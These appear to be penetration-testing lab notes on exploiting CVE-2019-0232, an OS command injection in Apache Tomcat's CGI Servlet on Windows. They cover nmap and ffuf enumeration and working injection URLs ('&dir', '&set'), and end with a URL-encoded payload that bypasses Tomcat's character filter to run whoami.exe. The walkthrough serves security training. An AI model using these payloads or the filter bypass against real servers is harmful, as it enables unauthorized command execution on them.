 # Tomcat CGI Attacks

* The `enableCmdLineArguments` setting for Apache Tomcat's CGI Servlet controls whether command line arguments are created from the query string
  * &#x20;If set to true,
    * the CGI Servlet parses the query string and passes it to the CGI script as arguments.
* The CGI script can use command line arguments to switch between these actions. For instance, the script can be called with the following URL:

```http
http://example.com/cgi-bin/booksearch.cgi?action=title&query=the+great+gatsby
```

* Here, the `action` parameter is set to `title`, indicating that the script should search by book title. The `query` parameter specifies the search term "the great gatsby."
* If the user wants to search by author, they can use a similar URL:

```http
http://example.com/cgi-bin/booksearch.cgi?action=author&query=fitzgerald
```

* However, a problem arises when `enableCmdLineArguments` is enabled on Windows systems because the CGI Servlet fails to properly validate the input from the web browser before passing it to the CGI script.
  * **This can lead to an operating system command injection attack, which allows an attacker to execute arbitrary commands on the target system by injecting them into another command.**
  * For instance, an attacker can append `dir` to a valid command using `&` as a separator to execute `dir` on a Windows system
  * If the attacker controls the input to a CGI script that uses this command, they can inject their own commands after `&` to execute any command on the server.
  * An example of this is `http://example.com/cgi-bin/hello.bat?&dir`, which passes `&dir` as an argument to `hello.bat` and executes `dir` on the server.
    * As a result, an attacker can exploit the input validation error of the CGI Servlet to run any command on the server.

### Enumeration

* Scan the target using `nmap`, this will help to pinpoint active services currently operating on the system.
* This process will provide valuable insights into the target, discovering what services, and potentially which specific versions are running, allowing for a better understanding of its infrastructure and potential vulnerabilities.

```shell-session
nmap -p- -sC -Pn 10.129.204.227 --open 
```

```shell-session
8080/tcp  open  http-proxy
|_http-title: Apache Tomcat/9.0.17
|_http-favicon: Apache Tomcat
```

**Finding a CGI script**

* One way to uncover web server content is by utilising the `ffuf` web enumeration tool along with the `dirb common.txt` wordlist.
* Knowing that the default directory for CGI scripts is `/cgi`, either through prior knowledge or by researching the vulnerability, we can use the URL `http://10.129.204.227:8080/cgi/FUZZ.cmd` or `http://10.129.204.227:8080/cgi/FUZZ.bat` to perform fuzzing.

**Fuzzing Extentions - .CMD**

*   ### Fuzzing Extentions - .CMD

    ```shell-session
    ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd
    ```

**Fuzzing Extentions - .BAT**

*   ### Fuzzing Extentions - .BAT

    ```shell-session
    ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat
    ```

### Exploitation

* &#x20;we can exploit `CVE-2019-0232` by appending our own commands through the use of the batch command separator `&`.
* We now have a valid CGI script path discovered during the enumeration at `http://10.129.204.227:8080/cgi/welcome.bat`

```http
http://10.129.204.227:8080/cgi/welcome.bat?&dir
```

* Navigating to the above URL returns the output for the `dir` batch command, however trying to run other common windows command line apps, such as `whoami` doesn't return an output.
* Retrieve a list of environmental variables by calling the `set` command

```http
http://10.129.204.227:8080/cgi/welcome.bat?&set
```

```http
Welcome to CGI, this section is not functional yet. Please return to home page.
AUTH_TYPE=
COMSPEC=C:\Windows\system32\cmd.exe
CONTENT_LENGTH=
CONTENT_TYPE=
GATEWAY_INTERFACE=CGI/1.1
HTTP_ACCEPT=text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
HTTP_ACCEPT_ENCODING=gzip, deflate
HTTP_ACCEPT_LANGUAGE=en-US,en;q=0.5
HTTP_HOST=10.129.204.227:8080
HTTP_USER_AGENT=Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.JS;.WS;.MSC
PATH_INFO=
PROMPT=$P$G
QUERY_STRING=&set
REMOTE_ADDR=10.10.14.58
REMOTE_HOST=10.10.14.58
REMOTE_IDENT=
REMOTE_USER=
REQUEST_METHOD=GET
REQUEST_URI=/cgi/welcome.bat
SCRIPT_FILENAME=C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi\welcome.bat
SCRIPT_NAME=/cgi/welcome.bat
SERVER_NAME=10.129.204.227
SERVER_PORT=8080
SERVER_PROTOCOL=HTTP/1.1
SERVER_SOFTWARE=TOMCAT
SystemRoot=C:\Windows
X_TOMCAT_SCRIPT_PATH=C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi\welcome.bat
```

* From the list, we can see that the `PATH` variable has been unset, so we will need to hardcode paths in requests:

```http
http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe
```

* The attempt was unsuccessful, and Tomcat responded with an error message indicating that an invalid character had been encountered.
* Apache Tomcat introduced a patch that utilises a regular expression to prevent the use of special characters.
* However, the filter can be bypassed by URL-encoding the payload.

```http
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```
